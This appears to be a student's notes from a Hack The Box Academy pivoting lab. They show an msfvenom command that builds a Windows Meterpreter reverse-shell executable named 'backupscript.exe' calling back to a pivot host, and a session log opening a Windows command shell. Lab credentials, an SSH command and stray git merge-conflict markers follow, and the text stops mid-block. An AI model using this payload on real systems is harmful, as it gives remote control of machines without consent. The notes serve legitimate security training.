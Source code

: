 Create a reverse shell payload that will send a connection back to our Ubuntu server on `172.16.5.129`:`1234` when executed on our Windows host. Once our Ubuntu server receives this connection, it will forward that to `attack host's ip`:`8081` that we configured.

#### Generate the Windows Payload

```python
datboyblu3@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
```

After executing the Windows payload.....

#### Establish Meterpreter Session

```python
[*] Started reverse TCP handler on 0.0.0.0:8081 
[*] Sending stage (200262 bytes) to 10.10.14.18
[*] Meterpreter session 2 opened (10.10.14.18:8081 -> 10.10.14.18:40173 ) at 2022-03-04 15:26:14 -0500
meterpreter > shell
Process 2336 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\>
```

<<<<<<< HEAD
****

=======
>>>>>>> 51abefc3987c8ed7ca6ced79ddfbcd2a83db9b8c
## Questions

IP
```go
10.129.244.34
```

Username
```go
ubuntu
```

Password
```go
HTB_@cademy_stdnt!
```

SSH
```go
<<<<<<< HEAD
ssh ubuntu@10.129.90.142
```

